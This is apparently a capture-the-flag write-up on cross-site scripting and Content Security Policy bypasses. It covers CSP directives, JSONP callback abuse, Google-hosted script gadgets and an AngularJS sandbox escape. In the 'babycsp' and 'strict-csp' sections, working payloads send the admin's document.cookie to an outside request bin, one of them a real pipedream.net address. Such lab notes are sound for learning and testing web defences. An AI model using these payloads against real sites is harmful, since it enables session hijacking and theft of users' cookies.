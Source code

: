 
# XSS

Some notes about CSP:

1. **`default-src`** directive serves as a fallback for the other CSP [fetch directives](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive). For each of the following directives that are absent, the user agent looks for the `default-src` directive and uses this value for it.

2. The **`script-src`** directive specifies valid sources for JavaScript. This includes not only URLs loaded directly into [`<script>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script) elements, but also things like inline script event handlers (`onclick`) and [XSLT stylesheets](https://developer.mozilla.org/en-US/docs/Web/XSLT) which can trigger script execution.

3. `object-src 'none'` Prevents fetching and executing plugin resources embedded using `<object>`, `<embed>` or `<applet>` tags. The most common example is Flash.

4. `script-src nonce-{random} 'unsafe-inline'` The `nonce` directive means that `<script>` elements will be allowed to execute only if they contain a *nonce* attribute matching the randomly-generated value which appears in the policy.

   *Note: In the presence of a CSP nonce the `unsafe-inline` directive will be ignored by modern browsers. Older browsers, which don't support nonces, will see `unsafe-inline` and allow inline scripts to execute.*

5. `script-src 'strict-dynamic' https: http:` 'strict-dynamic' allows the execution of scripts dynamically added to the page, as long as they were loaded by a safe, already-trusted script (see the [specification](https://w3c.github.io/webappsec-csp/#strict-dynamic-usage)).

   *Note: In the presence of 'strict-dynamic' the https: and http: whitelist entries will be ignored by modern browsers. Older browsers will allow the loading of scripts from any URL.*

6. `'unsafe-eval'` allows the application to use the `eval()` JavaScript function. This reduces the protection against certain types of DOM-based XSS bugs, but makes it easier to adopt CSP. If your application doesn't use `eval()`, you can remove this keyword and have a safer policy. More on the `eval` function:

## Recall: What is API callback and why are we using it?

From [Bypassing CSP by Abusing JSONP Endpoints | by Mazin Ahmed | Medium](https://medium.com/@mazin.ahmed/bypassing-csp-by-abusing-jsonp-endpoints-47cf453624d5):

JSONP APIs normally works by having a parameter that sets a callback, so that users of the JSONP API can freely use the API according to their code. The GET parameter is reflected on the response in the 0 offset. This means that we basically control the start of the response body. JavaScript is a very dynamic language. It dynamically allows us to do many things we should not do, and are not supposed to do. Let’s use some of JavaScript magic to our side here. What if we enter:

> alert(1);//

as our callback? If no proper sanitization is done on the JSONP endpoint, it will be reflected as the following:

> alert(1);//{“name”: “Mazin”}

This is technically a correct JavaScript code! The syntax is correct as the rest of the response of commented out. JS engines would treat the data as a typical JavaScript code instead of a JSONP endpoint.

## babycsp

Valid JSONP belonging to `*.google.com` that we can use:

 `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

Since the CSP of the website is:

```javascript
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

### The exploit

We need a page that makes an HTTP req to reqbins, and that sends to it all the cookies. Then we use the XSS vulnerability on the website of the challenge to make the admin visit that webpage, and we should be all set. More specifically those are the steps to follow:

1. First we setup our requestbin and we copy its url
2. Then we execute a GET to the homepage of the challenge to create a session
3. We perform a POST to create the content on the webapp
4. Then we perform a GET to make the admin visit the url of our post. When loaded it will execute or javascript code, this performing the XSS attack which will send the admin's cookies to our request bin by performing a POST to it with the cookies encoded in the headers.

This is the javascript payload:

```python
payload = """
<script src="https://accounts.google.com/o/oauth2/revoke?callback=
window.location.href = ''.concat('""" + HOOK + """?c=', document.cookie);
"></script>
"""
```

Where `HOOK` is the url of the request bin. Putting that in a post and sending it to the admin will allow us to send the session cookie of the admin, which contains the flag, to our bin embedded as request parameter.

## csp

```javascript
Content-Security-Policy: default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval'; style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/; font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Because of `object-src 'none'` we cannot use object, embed or applet tags.

We have user input escaping. More specifically, if I send this text:

```
'';!--"<XSS>=&{()}
```

This is what gets printed:

```
&#39;&#39;;!--&quot;&lt;XSS&gt;=&amp;{()}
```

Which means that we only have `; ! - = {} ()`. Still, we have a vulnerability. In fact there's a specific field, which is the one that is used to add participant names to the event, which is not escaped. As such we can use it to carry our exploit.

### First approach

Now that we have some attack surface, I started trying some exploits.

* First off, from [Content Security Policy (CSP) Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass):

  `Content-Security-Policy: script-src https://google.com 'unsafe-eval'; `
  
  Working payload:` <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`
  
  But that did not work: 

  `Caricamento non riuscito per lo <script> con sorgente “data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==”.`.

* This looked promising: `<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>`, but the GET request returns 404.

* `<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>` this would not work because this csp blocks embed tags.

* This actually worked:

  ```html
  ><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
  ```

  But this is tricky, because it basically executes the url and it puts the result as function argument, in this case we've got an `alert`, which means that the result of that google search will be printed as an alert by the browser.

* This other one `<script src="https://www.google.com/tools/feedback/escalation-options?callback=alert(1337)"></script>` actually does something, but from the look of it, its not useful: it just returns a GET with this body:

  ```javascript
  // API callback
  alert1337({})
  ```

### Solution

A bit disappointing, since I solved this with random code found on the internet. From [CSP - Pentest Book (six2dez.com)](https://pentestbook.six2dez.com/enumeration/web/csp):

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.6/angular.js"></script> <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} </div>
```

**Note**: the payload must be at most 255 characters long!

## strict-csp

```javascript
Content-Security-Policy: default-src 'self'; script-src 'strict-dynamic' 'nonce-Iyt3N79hSx'; style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/; font-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Here we've got a problem: we have a nonce implemented in the CSP. First thing off, I vaidated it with [CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/). From that we can see that we've got a problem derivating from the fact that `base-uri` is missing:

>Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?

And the same goes for `require-trusted-types-for`:

>Consider requiring Trusted Types for scripts to lock down DOM XSS injection sinks. You can do this by adding "require-trusted-types-for 'script'" to your policy.

The exploit surface here is the `require.js` file. This is enough to solve the challenge:

```html
<script data-main='data:1,window.location.href="https://en1lv1e4jrpywf5.m.pipedream.net?c"+document.cookie;' src='require.js'></script>
```
